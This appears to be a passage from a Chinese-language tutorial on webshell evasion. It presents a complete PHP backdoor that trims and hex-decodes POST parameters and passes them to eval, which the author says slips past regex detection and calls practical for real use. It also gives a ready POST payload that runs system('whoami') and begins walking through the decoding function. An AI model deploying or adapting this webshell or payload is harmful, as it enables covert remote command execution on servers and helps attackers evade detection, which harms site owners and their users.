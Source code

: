 ![ll0sx462.png](assets/1698896037-332a697b5d70f3d938651b9ae1db423e.png)

这个样例使用了字符串截取 + 编解码转换 + 参数回调的手法，成功规避了正则匹配式，具有实战意义

```php
<?php
phpinfo();
class Car{
    function encode(){
        $num1=base64_encode($_POST['num']);
        $num=base64_decode($num1);
        echo "1";
        foreach($_POST as $k => $v){
            $_POST[$k] = pack("H*",(substr($v,$num,-$num)));
        }
        @$post=base64_encode($_POST['Qxi*37yz']);
        @$post1=base64_decode(@$post);
        return $post1;
    }
    function Xt(){
        return eval($this->encode());
    }
}
$t=new Car;
$t->Xt();
?>
```

这时候，就可以执行 POST 传参：`num=2&Qxi*37yz=6173797374656d282777686f616d6927293b62` 来执行 whoami 命令

这个 PHP 内定义了两个函数，分别是 `encode()` 和 `Xt()`，我们先看 `encode()`：

```php
function encode(){
    $num1=base64_encode($_POST['num']);
    $num=base64_decode($num1);
    echo "1";
    foreach($_POST as $k => $v){
        $_POST[$k] = pack("H*",(substr($v,$num,-$num)));
    }
    @$post=base64_encode($_POST['Qxi*37yz']);
    @$post1=base64_decode(@$post);
    return $post1;
}
```
